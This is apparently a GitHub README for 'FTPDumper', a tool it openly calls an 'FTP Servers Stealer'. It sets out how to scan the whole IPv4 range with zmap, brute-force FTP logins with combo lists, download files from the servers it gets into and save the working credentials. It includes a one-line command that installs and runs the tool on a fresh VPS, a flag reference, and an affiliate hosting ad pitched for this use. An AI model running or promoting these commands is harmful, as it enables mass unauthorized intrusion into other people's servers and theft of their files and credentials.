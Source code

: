 <p align="center"><img src="https://i.ibb.co/TR8ZCyn/New-Project.png" width="256" alt="logo"></p>
<h1 align="center">FTPDumper - An FTP Servers Stealer</h1>


<p align="center">
<img alt="FTPDumper forks" src="https://img.shields.io/github/forks/MatrixTM/FTPDumper?style=for-the-badge">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/MatrixTM/FTPDumper?style=for-the-badge">
<br>
<!-- <img alt="GitHub Downloads" src="https://img.shields.io/github/downloads/MatrixTM/FTPDumper/FTPDumper?style=social&color=07c1f0"> -->
<p align="center">
 <img src="https://views.whatilearened.today/views/github/MatrixTM/FTPDumper.svg" width="80px" height="28px" alt="View">
</p>

___

<p align="center"><img src="https://i.imgur.com/H39uBH3.png" width="1040" alt="features"></p>

## 📖 What is FTPDumper ?

FTPDumper is an easy-to-use yet advanced FTP server file stealer.
It can be utilized in massive FTP brute-force attacks, supporting various formats such as combo, pipe input, CIDR, files, and even a single IP address.

FTPDumper boasts a plethora of features, including:
- 💡 **Anti-Fake File Detection**: Utilizes advanced algorithms to detect and prevent the extraction of counterfeit files.
- 🔍 **Self-Implemented Scanner**: Employs an internally developed scanning mechanism to ensure thoroughness and efficiency.
- 🖥️ **Modern and Sleek User Interface**: Offers a visually appealing and user-friendly interface for seamless navigation and operation.
- ⚡ **Fast and Memory-Safe Operation**: Executes operations swiftly while maintaining optimal memory usage to prevent system slowdowns or crashes.
- 🤝 **Smart Connection and Timeout Management**: Implements intelligent connection strategies and timeout configurations to maximize accuracy and resource utilization.

###### Use it at your own RISK!


## 🔍 Overview

- 🚀 [Quickstart](#-quickstart)
- ⚙️ [Arguments](#%EF%B8%8F-arguments)
- 👨‍💻 [Best Way to get a server](#-best-way-to-get-a-server)

# 🚀 Quickstart

---

#### One-Line Install And Running on Fresh VPS
```bash
apt update && apt install -y zmap && wget -q $(curl -s https://api.github.com/repos/MatrixTM/FTPDumper/releases/latest | grep browser_download_url | grep "FTPDumper" | cut -d '"' -f 4) && chmod +x FTPDumper && zmap -p 21 -B 50MB -q | ./FTPDumper -l 5000
```

<details>
 <summary><b>🔧 Manual Installation</b></summary>
<h3> 1. Download FTPDumper </h3>
<p>Download FTPDumper from <a href="https://github.com/MatrixTM/FTPDumper/releases">Releases</a></p>

<h3> 2. Set Up Permission </h3>

Set up permission to FTPDumper binary file.
```bash
chmod +x FTPDumper
```

<h3> 3. Run FTPDumper </h3>

You have a few ways to use FTPDumper.

- Zmap
  - Download Zmap
  ```bash
  sudo apt install zmap
  ```
  - Run FTPDumper (Zmap)
  ```bash
  zmap -p 21 -q | ./FTPDumper -l 500 -save
  ```
  - Run FTPDumper (DevWay)
  ```bash
  ./FTPDumper -l 500 -save -s 0.0.0.0/0
  ```
  Check out [Arguments](#-arguments) to see more
</details>

---

# ⚙️ Arguments

```bash
MatrixTM@FTPDumper: ./FTPDumper --help
FTPDumper - Scan World FTP Servers and Steal Their Data

  Flags:
       --version   Displays the program version string.
    -h --help      Displays help with available flag, subcommand, and positional value parameters.
    -scan --scanner   Ip/CIDR scanner (stdin|filename|cidr|ip) (default: stdin)
    -c --combo     Combo File (user:password)
    -p --ports     Ports Split by , (Default Port: 21)
    -o --output    Output Folder (default: files)
    -f --formats   File Formats Split by , (Default Format: all)
    -l --limit     Task limit (default: 10)
    -t --timeout   Timeout in seconds (default: 5s)
    -s --save      Save Credentials in hit.txt
    -v --verbose   Verbose Mode
```

| Argument         | Description                                                                     | Default Value |
|------------------|---------------------------------------------------------------------------------|:-------------:|
| --version        | Displays the program version string.                                            |     None      |
| -h, --help       | Displays help with available flag, subcommand, and positional value parameters. |     None      |
| -scan, --scanner | IP/CIDR scanner [stdin\|filename\|cidr\|ip] stdin                               |     stdin     |
| -c, --combo      | Combo File (user:password)                                                      |   anonymous   |
| -p, --ports      | Ports Split by ,                                                                |      21       |
| -o, --output     | Output Folder files                                                             |     files     |
| -f, --formats    | File Formats Split by ,                                                         |      all      |
| -l, --limit      | Task limit                                                                      |      10       |
| -t, --timeout    | Timeout in seconds                                                              |      5s       |
| -s, --save       | Save Credentials in hit.txt                                                     |     False     |
| -v, --verbose    | Verbose Mode                                                                    |     False     |
---

# 👨‍💻 Best Way to get a server

<a href="https://aeza.net/?ref=375036"><img src="https://i.ibb.co/wgq9Ly8/aezabanner.png" width="728" height="90"  alt="aeza"></a>
##### For this subject, the best hosting I found is [Aeza](https://aeza.net/?ref=375036 "Aeza Hosting")
##### You Can buy hourly 10Gbps & Ryzen 9 Servers with a cheap price

[//]: # ()
[//]: # ()
[//]: # (## Star history)

[//]: # ()
[//]: # (---)

[//]: # (<picture>)

[//]: # (  <source)

[//]: # (    media="&#40;prefers-color-scheme: dark&#41;")

[//]: # (    srcset=")

[//]: # (      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date&theme=dark)

[//]: # (    ")

[//]: # (  />)

[//]: # (  <source)

[//]: # (    media="&#40;prefers-color-scheme: light&#41;")

[//]: # (    srcset=")

[//]: # (      https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date)

[//]: # (    ")

[//]: # (  />)

[//]: # (  <img)

[//]: # (    alt="Star History Chart")

[//]: # (    src="https://api.star-history.com/svg?repos=MatrixTM/FTPDumper&type=Date")

[//]: # (  />)

[//]: # (</picture>)
